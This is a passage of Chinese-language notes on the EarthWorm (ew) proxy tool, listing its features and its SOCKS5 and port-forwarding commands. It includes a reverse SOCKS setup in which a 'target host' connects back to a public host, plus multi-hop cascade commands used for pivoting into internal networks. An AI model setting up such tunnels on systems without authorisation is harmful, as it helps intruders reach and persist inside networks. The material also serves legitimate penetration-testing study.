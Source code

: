 <img src="./images/Snipaste_2021-11-09_15-25-25.png">
### 3.2 特点
1. 轻量级，C语言编写
2. 可以设置多级代理
3. 跨平台
4. 但是只支持Socks5代理

### 3.3 使用方法
以下使用方法均摘自：http://rootkiter.com/EarthWorm/
以下所有样例，如无特殊说明代理端口均为1080，服务均为SOCKSv5代理服务.
该工具共有 6 种命令格式（ssocksd、rcsocks、rssocks、lcx_slave、lcx_listen、lcx_tran）。
#### 1. 正向 SOCKS v5 服务器
```shell
$ ./ew -s ssocksd -l 1080
```
#### 2. 反弹 SOCKS v5 服务器
这个操作具体分两步：
a) 先在一台具有公网 ip 的主机A上运行以下命令：
```shell
$ ./ew -s rcsocks -l 1080 -e 8888 
```
b) 在目标主机B上启动 SOCKS v5 服务 并反弹到公网主机的 8888端口
```shell
$ ./ew -s rssocks -d 1.1.1.1 -e 8888 
```
成功。
#### 3. 多级级联
工具中自带的三条端口转发指令， 它们的参数格式分别为：
```shell
$ ./ew -s lcx_listen -l  1080   -e 8888  
$ ./ew -s lcx_tran   -l  1080   -f 2.2.2.3 -g 9999  
$ ./ew -s lcx_slave  -d 1.1.1.1 -e 8888    -f 2.2.2.3  -g  9999
```